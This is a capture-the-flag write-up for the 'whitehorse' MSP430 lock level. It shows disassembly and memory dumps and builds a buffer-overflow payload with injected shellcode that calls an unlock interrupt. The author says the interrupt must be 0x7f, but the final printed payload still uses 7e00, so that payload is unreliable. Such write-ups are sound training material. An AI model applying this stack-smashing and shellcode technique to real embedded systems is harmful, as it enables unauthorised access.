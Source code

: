 # whitehorse writeup

let's have a look at the different functions first:

**`<main>**:`

Lets look at the **`<main>`** function first, for this level it simply calls another function **`<login>`**

```asm
4438 <main>
4438:  b012 f444      call  #0x44f4 <login>
```

**`<login>**:`

this function doesn't look that interesting, but it calls another function: **<conditional_unlock_door>**

it prints ***“Access granted."*** or ***“That password is not correct."***

**!: Remember: passwords are between 8 and 16 characters.**

```asm
44f4 <login>
44f4: 3150 f0ff add #0xfff0, sp
44f8: 3f40 7044 mov #0x4470 "Enter the password to continue.", r15
44fc: b012 9645 call #0x4596 <puts>
4500: 3f40 9044 mov #0x4490 "Remember: passwords are between 8 and 16 characters.", r15
4504: b012 9645 call #0x4596 <puts>
4508: 3e40 3000 mov #0x30, r14
450c: 0f41 mov sp, r15
450e: b012 8645 call #0x4586 <getsn>
4512: 0f41 mov sp, r15
4514: b012 4644 call #0x4446 <conditional_unlock_door
4518: 0f93 tst r15
451a: 0324 jz #0x4522 <login+0x2e>
451c: 3f40 c544 mov #0x44c5 "Access granted.", r15
4520: 023c jmp #0x4526 <login+0x32>
4522: 3f40 d544 mov #0x44d5 "That password is not correct.", r15
4526: b012 9645 call #0x4596 <puts>
452a: 3150 1000 add #0x10, sp
452e: 3041 ret
```

**`<conditional_unlock_door>:`**

```asm
4446 <conditional_unlock_door>
4446:  0412           push  r4
4448:  0441           mov   sp, r4
444a:  2453           incd  r4
444c:  2183           decd  sp
444e:  c443 fcff      mov.b #0x0, -0x4(r4)
4452:  3e40 fcff      mov   #0xfffc, r14
4456:  0e54           add   r4, r14
4458:  0e12           push  r14
445a:  0f12           push  r15
445c:  3012 7e00      push  #0x7e ; lets have a look at the manual!
4460:  b012 3245      call  #0x4532 <INT>
4464:  5f44 fcff      mov.b -0x4(r4), r15
4468:  8f11           sxt   r15
446a:  3152           add   #0x8, sp
446c:  3441           pop   r4
446e:  3041           ret
```

***INT 0x7E:***

***Interface with the HSM-2. Trigger the deadbolt unlock if the password is
correct.***

***Takes one argument: the password to test.***

but after reading it for a while I noticed that I have to change it to this:

***INT 0x7F***

***``Interface with deadbolt to trigger an unlock if the password is correct.
Takes no arguments.``***

let's start debugging and enter a password:

I quickly realized that I can control the stack and after asking someone if I can call my own interrupt I simply did that.

let's have a look at this two instructions:

```asm
445c:  3012 7e00      push  #0x7e
4460:  b012 3245      call  #0x4532 <INT>
```

I just took `3012 7e00 b012 3245` for my own input to call 0x7e

I first asked myself what my payload should look like so I looked at the password buffer:

after playing around with the debugger I noticed that my password buffer starts at `3c72`

> read sp
 
3c6a:   0200 723c 3000 1245  ..r<0..E

3c72:   4242 4242 4242 4242  BBBBBBBB

3c7a:   4242 4242 4242 4242  BBBBBBBB

3c82:   4242 4242 0000 0000  BBBB....

( I entered 20 B's )

> read sp

3c82:   4242 4242 0000 0000  BBBB....

3c8a:   0000 0000 0000 0000  ........

3c92:   0000 0000 0000 0000  ........

3c9a:   0000 0000 0000 0000  ........

the `stack pointer` is now here

so the `ret` will jump to the address at the 17-18th position of the password buffer 

Payload (hex encoded):

the first 8 bytes will be `3012 7f00 b012 3245` for my changed interrupt

`7e00` (I had to change that to `7f00` to trigger **INT 0x7f**)

the next 8 bytes are `4242424242424242` (you obviously can also enter other for example `41` 8 times )

the last 2 bytes are `3c72`

as you already know MSP 430 is `little endian` so it's `723c`

i did it with a python shell:

```python
>>> print('30127e00b0123245'+'41'*8+'723c')
```

this level was pretty tricky!

solved: 14.3.20
